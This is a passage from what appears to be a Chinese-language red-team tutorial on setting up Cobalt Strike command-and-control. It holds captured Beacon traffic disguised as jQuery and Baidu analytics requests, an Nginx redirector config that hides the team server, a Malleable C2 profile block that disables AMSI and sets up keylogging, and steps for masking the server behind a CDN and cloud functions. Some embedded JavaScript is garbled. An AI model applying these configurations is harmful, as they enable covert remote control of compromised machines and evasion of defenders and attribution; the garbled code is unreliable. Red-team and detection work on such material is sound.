null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),"function"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each("Boolean Number String Function Array Date RegExp Object Error Symbol".split(" "),function(e,t){l["[object "+t+"]"]=t.toLowerCase()});function C(e){var t=!!e&&"length"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&("array"===n||0===t||"number"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b="sizzle"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=".....z......beg..../.A......u/.H.u...2~).....S(......L...Hrjj.T.1".(o=t.documentElement,Math.max(t.body["scroll"+e],o["scroll"+e],t.body["offset"+e],o["offset"+e],o["client"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each("blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu".split(" "),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,"**"):this.off(t,e||"**",n)}}),w.proxy=function(e,t){var n,r,i;if("string"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return("number"===t||"string"===t)&&!isNaN(e-parseFloat(e))},"function"==typeof define&&define.amd&&define("jquery",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});

http-post
---------
POST /hm.js?si=ca96c3a937654182fb6d097cb2a1a4c HTTP/1.1
Accept: /*
Accept-Encoding: gzip, deflate, br
Host: www.example.com
Cache-Control: no-cache
DNT: 1
Referer: https://www.example.com/
Content-Length: 27
User-Agent: Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37

ffFvY2MBNJ8CQP8jtrFAk9M_eys

HTTP/1.1 200 OK
Date: Sat, 4 Mar 2023 17:28:14 GMT
Server: Apache
Content-Length: 1816
Keep-Alive: timeout=10, max=100
Connection: keep-alive
Content-Type: text/javascript; charset=utf-8
Content-Encoding: gzip
Cache-Control: max-age=0, no-cache
Pragma: no-cache

(function(){var h={},mt={},c={id:"ca96c3507ee04e4a1sdzd5b2a1a4c",dm:["www.example.com","www.example.com"],js:"tongji.baidu.com/hm-web/js/",etrk:["%7b%22*.www.example.com%5c%2f*%22%3a%5b%22html%3ebody%3ediv%5b12%5d%3ediv%5b1%5d%3ediv%5b1%5d%3ea%5b1%5d%3ei%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b1%5d%3ediv%5b2%5d%3ediv%5b5%5d%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b2%5d%3ediv%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b4%5d%3ediv%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b5%5d%3ediv%5b2%5d%3ediv%5b2%5d%3ea%22%2c%22%23btntoTop%22%2c%22%23searchBtn%22%2c%22%23collectBtn%22%2c%22%23advertImg%22%2c%22%23menu%22%5d%2c"],cetrk:[],cptrk:[],icon:'',ctrk:["%5b%22%5c%2f%5c%2fmy.www.example.com%5c%2fToolMember%5c%2fBargain%5c%2fIndex*%22%2c%22rank.www.example.com%5c%2fbaidupc%5c%2f*%5c%2f*.com%22%2c%22data.www.example.com%22%5d"],vdur:1800000,age:31536000000,qiao:0,pt:0,spa:0,aet:'',Hb:"utm_campaign",ka:0,B:Math.round(+new Date/1E3),protocol:"https:"===document.location.protocol?"https:":"http:",L:"https:",Da:6E5,bc:5E3,Ea:5,ca:1024,G:2147483647,ra:"hca cc cf ci ck cl cm cp cu cw ds vl ep et ja ln lo lt rnd si su v cv lv api sn r ww p u tt".split(" "),ga:t,Pb:{id:"data-hm-id",Tb:"data-hm-class",jc:"data-hm-xpath",content:"data-hm-content",hc:"data-hm-tag",link:"data-hm-link"},Rb:"data-hm-enabled",Qb:"data-hm-disabled",xb:"https://hmcdn.baidu.com/static/tongji/plugins/",na:["UrlChangeTracker"],Nb:{$b:0,ic:1,Xb:2},Yb:"https://fclog.baidu.com/log/ocpcagl?type=behavior&emd=euc"};";iB-GkQ(function(){var e=h.o,a={D:function(){if(""!==c.icon){var a=c.icon.split("|"),k=e.kb+"?s="+c.id,d="https://hmcdn.baidu.com/static"+a[0]+".gif";document.write("swf"===a[1]||"gif"===a[1]?'<a href="'+k+'" target="_blank"></a>':'<a href="'+k+'" target="_blank">'+a[0]+"</a>")}}};


[+] POST 3x check passed
[+] .http-get.server.output size is good
[+] .http-get.client size is good
[+] .http-post.client size is good
[+] .http-get.client.metadata transform+mangle+recover passed (1 byte[s])
[+] .http-get.client.metadata transform+mangle+recover passed (100 byte[s])
[+] .http-get.client.metadata transform+mangle+recover passed (128 byte[s])
[+] .http-get.client.metadata transform+mangle+recover passed (256 byte[s])
[+] .http-get.server.output transform+mangle+recover passed (0 byte[s])
[+] .http-get.server.output transform+mangle+recover passed (1 byte[s])
[+] .http-get.server.output transform+mangle+recover passed (48248 byte[s])
[+] .http-get.server.output transform+mangle+recover passed (1048576 byte[s])
[+] .http-post.client.id transform+mangle+recover passed (4 byte[s])
[+] .http-post.client.output transform+mangle+recover passed (0 byte[s])
[+] .http-post.client.output transform+mangle+recover passed (1 byte[s])
[+] .http-post.client.output POSTs results
[+] .http-post.client.output transform+mangle+recover passed (48248 byte[s])
[+] .http-post.client.output transform+mangle+recover passed (1048576 byte[s])
[+] Beacon profile specifies an HTTP Cookie header. Will tell WinINet to allow this.
[!] .host_stage is FALSE. This will break staging over HTTP, HTTPS, and DNS!
[%] [OPSEC] .post-ex.spawnto_x86 is '%windir%\syswow64\rundll32.exe'. This is a *really* bad OPSEC choice.
[%] [OPSEC] .post-ex.spawnto_x64 is '%windir%\sysnative\rundll32.exe'. This is a *really* bad OPSEC choice.
[!] .code-signer.keystore is missing. Will not sign executables and DLLs
[+] Found SSL certificate keystore
[!] .https-certificate.password is the default '123456'. Is this really your keystore password?
```

语法无误后最好生成 Stageless Payload 去机器 用Fiddler Classic 上抓包验证，确认真如 c2lint 展示的那样伪装正确。

Stageless 上线和定时通信请求与响应。

```http
GET http://www.example.com:443/jquery-3.3.1.min.js HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Host: www.example.com:443
Referer: https://www.example.com/
Accept-Encoding: gzip, deflate
Cookie: lQaRlebM9FunyP84_a05drda1X6FPXP26n5G7mWCRN2bN_GuSEARCH_SAMESITE=CgQIxZcB;SIDCC=HVuICqWpxT0JOvYu5tMunvNNZ-F1b-SyTr6ircMko52n8dTukVMECx8h7ECfM47tanlyWxrB434JbV3yLvo-LBFXzcOG_nl1r9jO5yEfbzy8jfWfasyfpuKEp0RaUqKzCnWjrJJotMDZ-Y7IW-8i49_sNaGQGS78NlIHyYswEYMAFvIBn9dV3DED_b9abMYP15oQHAYTY3TuRA5Dy8Etv42aCa9TOkpoR5MLV4MtgiDNguD_3uUfw%2F%2BFE6%2F%2FX8T4Q%3D%3D
User-Agent: Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37
Connection: Keep-Alive
Pragma: no-cache


H0A4Ix9AOjPrUC9F2n6dY4oXDyToCIv5xwzCZG3ifwWOklbMhZpRa5gadLvKeg5P29d2MXCgCY1tqZjxued-7aA3hUZU9_MQeIle1PgweSpRYmV9FJHghBPwqf9qqHL6xGcwwPbX5jDNhdoaBzWcnr2_X7Uqz52YU2NR6VZriVw7__aDEEQQSNET3iYvg6Fo_0sEiijwbRpf3DDy1oxOjnSMpN5o89B1aJ72_25DXg92QPcgTwKYIPQSAgWFotq6IJpIqfsznBS5h-FCVhy_u_oGZ3sE8Sht5NJbaPfICJS9lO48rfsO_UbEfnzWyyFD4lF45wEHN-0WaOlKxEiD6zS4HUjX87uEpc8wm26X5mM1D3urQ-fUZdIi1Y51BCPs74JM6VnnDAwhK9iJm23vnNVHymxxFfW53sF1siYXbYiBuJz5kUceVRuY24jr-hQuBEchUJrQf3sFUjNqXgPOAVo41-TKzj7lBEm2rzq42UW6QYZDiy9xoeO4O9b19BKTpaAJRpSETYpq611jDb4jOkY81tD-Szz_WOlg7uyyv6FTgjzXD1CYIGBsRNHDUfW-sRtqbN_Ibb-3NskXtxV8IzTvpxPg2JfZn6BPAzyfxY6WQSpWJVy9aCrg2KBZD6p9xxkNFtFFUh7Cu-S24OBgXU4DlIoXq8qc78uPZvPPZS6b7WNWvwsiad4m4rjBI2A-oI0TABxGg9EfQDozFLsYSgif9orAu6sPCjNqeIoLjJTRJCTdWj540J8XPWekUV6fs87aWblBVNrvEPwpAONGmM2r-LsEmr7nAgy27JlvPP8ZJwTl8H6IG0ULDmj2Z1pA1r5wzURTo2XnvaGVCX_LFMniCXHf2kCydXNxiYCW6sz9EfypD4OXBalWigd-A1GsIEJXTN2OoqUGoQJgSZIqXw_VaKXBvFvjDOwZUzJQJ5M_ieJOUE_PZeKCowQBAegAu1vQjjkW2mjZQM9uqLNc-T6F4PMckYVevqlqsW5qgEy4HZOBvB3Z2f1bdGFBKqLP9WIJf024newb66gQXvK4Kl5nWC_8iHGkrkDZKLJngQl5yVnKSeWnW1znSm2kZ7hB4zkO-vZHNnjRx4PxHgEOx8x6hMo0VYGdtWx3MlVLGpMwB3TO4OnLQ4kxVPqihKofR_oLMFE9_4_WIhmpCzhhYoxAxJp7sOpBM84IM3QbobWRi1kvdla_6BQzobeg62caaqnjvEldihytPnR8TsND1CSOc3X7PE9RqYkYnP7KLRnnnWdSiIKjzGxUWPFvG13jM3xgObMTG_9175XpAsQmEHz_VCD5wrnFsM_XyYtbK--JLRJddsMpVDzmkpO0ixeXF7f3HZdQvU4IaLfW88ZIRwSsxAvVDya_HguYXppuiX13GAPTiraT9fKCSs6T59p12KAtEoaw9Uw2HyFs
```

```http
HTTP/1.1 200 OK
Date: Sat, 04 Mar 2023 17:23:48 GMT
Server: Apache
Content-Length: 5537
Content-Type: application/javascript; charset=utf-8
Cache-Control: max-age=0, no-cache
Pragma: no-cache
Content-Encoding: gzip
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */!function(e,t){"use strict";"object"==typeof module&&"object"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error("jQuery requires a window with a document");return t(e)}:t(e)}("undefined"!=typeof window?window:this,function(e,t){"use strict";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return"function"==typeof t&&"number"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement("script");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+"":"object"==typeof e||"function"==typeof e?l[c.call(e)]||"object":typeof e}var b="3.3.1",w=function(e,t){return new w.fn.init(e,t)},T=/^[\s\uFEFF\xA0]+|[\s\uFEFF\xA0]+$/g;w.fn=w.prototype={jquery:"3.3.1",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for("boolean"==typeof a&&(l=a,a=arguments[s]||{},s++),"object"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:"jQuery"+("3.3.1"+Math.random()).replace(/\D/g,""),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||"[object Object]"!==c.call(e))&&(!(t=i(e))||"function"==typeof(n=f.call(t,"constructor")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?"":(e+"").replace(T,"")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,"string"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),"function"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each("Boolean Number String Function Array Date RegExp Object Error Symbol".split(" "),function(e,t){l["[object "+t+"]"]=t.toLowerCase()});function C(e){var t=!!e&&"length"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&("array"===n||0===t||"number"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b="sizzle"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P="
".(o=t.documentElement,Math.max(t.body["scroll"+e],o["scroll"+e],t.body["offset"+e],o["offset"+e],o["client"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each("blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu".split(" "),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,"**"):this.off(t,e||"**",n)}}),w.proxy=function(e,t){var n,r,i;if("string"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return("number"===t||"string"===t)&&!isNaN(e-parseFloat(e))},"function"==typeof define&&define.amd&&define("jquery",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});
```

Beacon 执行命令请求与响应。

```http
POST http://www.example.com:443/hm.js?si=ca96c3a9438364704182fb6d097cb2a1a4c HTTP/1.1
Accept: /*
Accept-Encoding: gzip, deflate, br
Host: www.example.com:443
Cache-Control: no-cache
DNT: 1
Referer: https://www.example.com/
User-Agent: Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37
Content-Length: 1424
Connection: Keep-Alive
Pragma: no-cache

H0A4Ix9AOjPrUC9F2n6dY4oXDyToCIv5xwzCZG3ifwWOklbMhZpRa5gadLvKeg5P29d2MXCgCY1tqZjxued-7aA3hUZU9_MQeIle1PgweSpRYmV9FJHghBPwqf9qqHL6xGcwwPbX5jDNhdoaBzWcnr2_X7Uqz52YU2NR6VZriVw7__aDEEQQSNET3iYvg6Fo_0sEiijwbRpf3DDy1oxOjnSMpN5o89B1aJ72_25DXg92QPcgTwKYIPQSAgWFotq6IJpIqfsznBS5h-FCVhy_u_oGZ3sE8Sht5NJbaPfICJS9lO48rfsO_UbEfnzWyyFD4lF45wEHN-0WaOlKxEiD6zS4HUjX87uEpc8wm26X5mM1D3urQ-fUZdIi1Y51BCPs74JM6VnnDAwhK9iJm23vnNVHymxxFfW53sF1siYXbYiBuJz5kUceVRuY24jr-hQuBEchUJrQf3sFUjNqXgPOAVo41-TKzj7lBEm2rzq42UW6QYZDiy9xoeO4O9b19BKTpaAJRpSETYpq611jDb4jOkY81tD-Szz_WOlg7uyyv6FTgjzXD1CYIGBsRNHDUfW-sRtqbN_Ibb-3NskXtxV8IzTvpxPg2JfZn6BPAzyfxY6WQSpWJVy9aCrg2KBZD6p9xxkNFtFFUh7Cu-S24OBgXU4DlIoXq8qc78uPZvPPZS6b7WNWvwsiad4m4rjBI2A-oI0TABxGg9EfQDozFLsYSgif9orAu6sPCjNqeIoLjJTRJCTdWj540J8XPWekUV6fs87aWblBVNrvEPwpAONGmM2r-LsEmr7nAgy27JlvPP8ZJwTl8H6IG0ULDmj2Z1pA1r5wzURTo2XnvaGVCX_LFMniCXHf2kCydXNxiYCW6sz9EfypD4OXBalWigd-A1GsIEJXTN2OoqUGoQJgSZIqXw_VaKXBvFvjDOwZUzJQJ5M_ieJOUE_PZeKCowQBAegAu1vQjjkW2mjZQM9uqLNc-T6F4PMckYVevqlqsW5qgEy4HZOBvB3Z2f1bdGFBKqLP9WIJf024newb66gQXvK4Kl5nWC_8iHGkrkDZKLJngQl5yVnKSeWnW1znSm2kZ7hB4zkO-vZHNnjRx4PxHgEOx8x6hMo0VYGdtWx3MlVLGpMwB3TO4OnLQ4kxVPqihKofR_oLMFE9_4_WIhmpCzhhYoxAxJp7sOpBM84IM3QbobWRi1kvdla_6BQzobeg62caaqnjvEldihytPnR8TsND1CSOc3X7PE9RqYkYnP7KLRnnnWdSiIKjzGxUWPFvG13jM3xgObMTG_9175XpAsQmEHz_VCD5wrnFsM_XyYtbK--JLRJddsMpVDzmkpO0ixeXF7f3HZdQvU4IaLfW88ZIRwSsxAvVDya_HguYXppuiX13GAPTiraT9fKCSs6T59p12KAtEoaw9Uw2HyFs
```

```http
HTTP/1.1 200 OK
Date: Sat, 04 Mar 2023 17:23:35 GMT
Server: Apache
Content-Length: 1816
Content-Type: text/javascript; charset=utf-8
Content-Encoding: gzip
Cache-Control: max-age=0, no-cache
Pragma: no-cache
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive

(function(){var h={},mt={},c={id:"ca96c3507ee04e4a1sdzd5b2a1a4c",dm:["www.example.com","www.example.com"],js:"tongji.baidu.com/hm-web/js/",etrk:["%7b%22*.www.example.com%5c%2f*%22%3a%5b%22html%3ebody%3ediv%5b12%5d%3ediv%5b1%5d%3ediv%5b1%5d%3ea%5b1%5d%3ei%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b1%5d%3ediv%5b2%5d%3ediv%5b5%5d%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b2%5d%3ediv%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b4%5d%3ediv%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b5%5d%3ediv%5b2%5d%3ediv%5b2%5d%3ea%22%2c%22%23btntoTop%22%2c%22%23searchBtn%22%2c%22%23collectBtn%22%2c%22%23advertImg%22%2c%22%23menu%22%5d%2c"],cetrk:[],cptrk:[],icon:'',ctrk:["%5b%22%5c%2f%5c%2fmy.www.example.com%5c%2fToolMember%5c%2fBargain%5c%2fIndex*%22%2c%22rank.www.example.com%5c%2fbaidupc%5c%2f*%5c%2f*.com%22%2c%22data.www.example.com%22%5d"],vdur:1800000,age:31536000000,qiao:0,pt:0,spa:0,aet:'',Hb:"utm_campaign",ka:0,B:Math.round(+new Date/1E3),protocol:"https:"===document.location.protocol?"https:":"http:",L:"https:",Da:6E5,bc:5E3,Ea:5,ca:1024,G:2147483647,ra:"hca cc cf ci ck cl cm cp cu cw ds vl ep et ja ln lo lt rnd si su v cv lv api sn r ww p u tt".split(" "),ga:t,Pb:{id:"data-hm-id",Tb:"data-hm-class",jc:"data-hm-xpath",content:"data-hm-content",hc:"data-hm-tag",link:"data-hm-link"},Rb:"data-hm-enabled",Qb:"data-hm-disabled",xb:"https://hmcdn.baidu.com/static/tongji/plugins/",na:["UrlChangeTracker"],Nb:{$b:0,ic:1,Xb:2},Yb:"https://fclog.baidu.com/log/ocpcagl?type=behavior&emd=euc"};";cIootw(function(){var e=h.o,a={D:function(){if(""!==c.icon){var a=c.icon.split("|"),k=e.kb+"?s="+c.id,d="https://hmcdn.baidu.com/static"+a[0]+".gif";document.write("swf"===a[1]||"gif"===a[1]?'<a href="'+k+'" target="_blank"></a>':'<a href="'+k+'" target="_blank">'+a[0]+"</a>")}}};
```

#### Nginx

手动搭建 Nginx 和 Apache 类似。

编辑 /etc/nginx/sites-enabled/default

```plaintext
server {
        # 监听 8080 端口，开启 HTTPS，默认使用这个 Server 块
        listen 8080 ssl default_server;

        # 设置 Host，匹配时使用此 server 块处理请求
        server_name www.example.com;

        # 配置 SSL 证书
        ssl_certificate         /etc/letsencrypt/live/www.example.com/fullchain.pem;
        ssl_certificate_key     /etc/letsencrypt/live/www.example.com/privkey.pem;

        # 配置反向代理
        location ~*/ {
            set $UA "Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37";
            set $proxyStatus '0';

            if ($request_method = 'GET') { set $proxyStatus '${proxyStatus}1'; }
            if ($request_method = 'POST') { set $proxyStatus '${proxyStatus}1'; }
            if ($request_uri = '/js/jquery-3.3.1.min.js') { set $proxyStatus '${proxyStatus}2'; }
            if ($request_uri ~ '/js/hm.js?(.*)') { set $proxyStatus '${proxyStatus}2'; }
            if ($http_user_agent = $UA) { set $proxyStatus '${proxyStatus}3'; }

            if ($proxyStatus = '0123') { proxy_pass https://127.0.0.1:8443; }
        }

        # 设置根目录
        root /var/www/html;

        # Add index.php to the list if you are using PHP
        index index.html index.htm index.nginx-debian.html;

        location / {
                # First attempt to serve request as file, then
                # as directory, then fall back to displaying a 404.
                try_files $uri $uri/ =404;
        }
}
```

其中反向代理匹配规则与 Apache 语法稍有不同。

`location ~*/` 意味任何请求根目录下任意文件就会进此块处理请求。

`set` 用于设置变量或赋值变量。

```plaintext
set $UA "Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37";
set $proxyStatus '0';
```

`if` 做判断。以第一行规则为例，判断请求方法是否是 GET，只要符合匹配就把 `$proxyStatus` 变量做字符串拼接重新赋值 `$proxyStatus = $proxyStatus + '1'`，最后变成 '01'。请求规则全部匹配最后变量值字符串会是 0123。

```plaintext
# 判断请求方法
if ($request_method = 'GET') { set $proxyStatus '${proxyStatus}1'; }
if ($request_method = 'POST') { set $proxyStatus '${proxyStatus}1'; }
# 判断 URI
if ($request_uri = '/js/jquery-3.3.1.min.js') { set $proxyStatus '${proxyStatus}2'; }
if ($request_uri ~ '/js/hm.js?(.*)') { set $proxyStatus '${proxyStatus}2'; }
# 判断 UA
if ($http_user_agent = $UA) { set $proxyStatus '${proxyStatus}3'; }
```

只要最后字符串匹配 0123 就转发请求。

```plaintext
if ($proxyStatus = '0123') { proxy_pass https://127.0.0.1:8443; }
```

设置监听器。HTTPS Hosts、HTTPS Host (Stager) 填反向代理地址，HTTPS Port (C2) 填反向代理 HTTPS 端口，这里是 8080，HTTPS Port (Blind) 是监听器监听的端口。


这里需要注意当前反代是在 8080 端口监听，C2 Profile 中 Referer 头要改成对应端口。

```plaintext
header "Referer" "https://www.example.com:8080/";
```

#### 自动化搭建

手动代理安装费时，云平台支持自动化。

写 Shell 脚本 结合 [https://github.com/threatexpress/cs2modrewrite](https://github.com/threatexpress/cs2modrewrite) 自动生成重写文件。

### C2 Profile

Identifying Cobalt Strike Team Servers

识别流量特征和指纹。

文章提出如何检测 CobaltStrike 常见默认特征：

-   [https://www.sekoia.io/en/hunting-and-detecting-cobalt-strike/](https://www.sekoia.io/en/hunting-and-detecting-cobalt-strike/)
-   [https://howto.thec2matrix.com/detection/basics](https://howto.thec2matrix.com/detection/basics)

CobaltStrike profile 编写：[https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2\_main.htm#\_Toc65482834](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_main.htm#_Toc65482834)

C2 编写参考  
[https://github.com/rsmudge/Malleable-C2-Profiles](https://github.com/rsmudge/Malleable-C2-Profiles)  
[https://github.com/threatexpress/malleable-c2](https://github.com/threatexpress/malleable-c2)

C2 Profile 工具生成：[https://github.com/Tylous/SourcePoint](https://github.com/Tylous/SourcePoint)

编写完 profile Linux 使用 c2lint 检查格式。

```plaintext
./c2lint c2.profile
```

#### 默认证书

客户端连接证书

HTTPS 监听器证书

#### HTTP 请求伪装

抓包验证流量区别。

分各种隧道 HTTP、DNS、SMB、SSH

#### 后渗透

设置内存注入、进程注入、迁移什么的。

```plaintext
# 后渗透进程相关
post-ex {
    set spawnto_x64 "%windir%\\sysnative\\gpupdate.exe";
    set spawnto_x86 "%windir%\\syswow64\\gpupdate.exe";
    set obfuscate "true";
    set smartinject "true";
    set amsi_disable "true";
    set pipename "Winsock2\\CatalogChangeListener-###-0,";
    set keylogger "GetAsyncKeyState";
    set pipename "sjkghs1v, legitPipe_##";
}
```

### Hiding C2 Traffic

#### CDN

为了隐藏服务器 IP，纷纷给域名配上 CDN，防止 IP 被溯源。有 CDN 最多丢失个域名而已不会暴露 TeamServer 或 Redirector IP 地址。


这里使用 CouldFlare 免费的 CDN。

SSL 流量加密全称选择 Full (strict)，因为服务器 Web 有安装自己的证书，并且是正常签发。Full 不会验证证书，Full (strict) 会去验证证书，这是区别。


在 Caching -> Cache Rules 添加绕过缓存的规则，确保带有 C2 特征的请求到反向代理服务器。


#### Cloud Function

腾讯云试过，能够上线，但是 Payload 不知道为啥就是不会执行命令。  
[https://xz.aliyun.com/t/10764](https://xz.aliyun.com/t/10764)  
[https://xz.aliyun.com/t/11625#toc-0](https://xz.aliyun.com/t/11625#toc-0)  
[https://n3dx0o.medium.com/using-domain-fronting-to-mask-your-c2-traffic-3099ae601685](https://n3dx0o.medium.com/using-domain-fronting-to-mask-your-c2-traffic-3099ae601685)  
Amazon  
[https://shells.systems/oh-my-api-abusing-tyk-cloud-api-management-service-to-hide-your-malicious-c2-traffic/](https://shells.systems/oh-my-api-abusing-tyk-cloud-api-management-service-to-hide-your-malicious-c2-traffic/)  
[https://cloud.tencent.com/document/product/583/39780#python-.E8.BF.90.E8.A1.8C.E6.97.B6](https://cloud.tencent.com/document/product/583/39780#python-.E8.BF.90.E8.A1.8C.E6.97.B6)

Google  
[https://fortynorthsecurity.com/blog/obfuscating-c2-traffic-with-google-cloud-functions/](https://fortynorthsecurity.com/blog/obfuscating-c2-traffic-with-google-cloud-functions/)

